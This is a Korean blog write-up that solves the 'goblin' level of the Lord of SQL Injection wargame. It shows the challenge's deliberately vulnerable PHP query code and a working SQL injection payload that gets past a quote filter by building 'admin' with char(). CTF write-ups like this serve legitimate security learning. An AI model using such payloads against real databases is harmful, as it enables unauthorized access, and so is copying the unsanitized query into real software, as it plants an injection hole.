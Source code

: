 ```yaml
---
layout: post
title: ! "[LOS] goblin"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - goblin
  - write-up
---
```

![]({{ site.baseurl }}/assets/posts/los-goblin/goblin.png)

cobolt 를 풀고 goblin으로 넘어오면 id 값은 guest로 고정이고 no 값만 입력받는 쿼리문이 있다.

`query: select id from prob_goblin where id='guest' and no=`

```php
<?php 

  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```
' , " 등이 필터링 대상이기 때문에 쓸 수 없다.

![]({{ site.baseurl }}/assets/posts/los-goblin/goblin_guest.png)

no 값이 1일때, Hello guest 가 뜬다.
예상되는 구조는 다음과 같다.

| no=1 | guest |
|------|-------|
| no=2 | admin |

id가 guest로 고정이기 때문에 no=2 를 넘겨도 id는 admin이 되지 않는다.
그렇다면 no값도 주고 id값도 admin으로 줄 수 있도록 하면 되지 않을까

`?no=0%20or%20id=char(97,100,109,105,110)`

이런식으로 직접적으로 admin을 넣어주지 않고 char 를 써주면 97 100 109 105 110이 admin이 된다.
그리고 no에는 guest의 no 값인 1을 넣어주면 풀리지 않는다.

![]({{ site.baseurl }}/assets/posts/los-goblin/goblin_clear.png)

고블린 클리어!


